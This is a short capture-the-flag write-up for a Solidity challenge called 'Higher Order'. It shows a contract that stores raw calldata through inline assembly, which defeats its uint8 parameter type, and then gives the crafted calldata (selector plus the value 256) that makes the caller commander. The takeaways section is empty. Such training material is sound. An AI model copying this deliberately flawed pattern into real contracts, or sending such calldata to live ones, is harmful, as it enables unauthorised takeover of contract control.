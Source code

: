 ## Challenge
~~~
Imagine a world where the rules are meant to be broken, and only the cunning and the bold can rise to power. Welcome to the Higher Order, a group shrouded in mystery, where a treasure awaits and a commander rules supreme.

Your objective is to become the Commander of the Higher Order! Good luck!

##### Things that might help:

- Sometimes, `calldata` cannot be trusted.
- Compilers are constantly evolving into better spaceships.
~~~
## Contract
```
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}
```
`

## Solution

0x211c85ab <- function registerTreasury(uint8)
0x0100 <- 256 in hexadecimal

since uint is an static parameter the calldata for registerTreasury looks like

0x211c85ab <-func selector
0000000000000000000000000000000000000000000000000000000000000100 <- new treasury size (256 > 255)


## Key takeaways and useful resources



